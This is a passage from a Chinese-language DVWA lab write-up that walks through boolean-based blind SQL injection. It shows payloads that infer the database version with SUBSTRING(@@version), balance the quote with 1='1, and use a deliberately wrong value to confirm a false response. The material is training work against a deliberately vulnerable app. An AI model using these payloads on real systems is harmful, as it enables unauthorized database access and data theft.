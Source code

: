 所以根據之前的 query 結果，我們只要加上版本判斷

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10')
```

還有為了滿足 injection 的 single quote `1='1` 在結尾

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10') AND 1='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2087.png)

### 驗證測試

這邊要故意輸入錯誤的版本，確認頁面回傳的結果是否為 false，代表我們使用的 injection 邏輯是正確的

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = 'xx10') AND 1='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2088.png)

### 開始推測
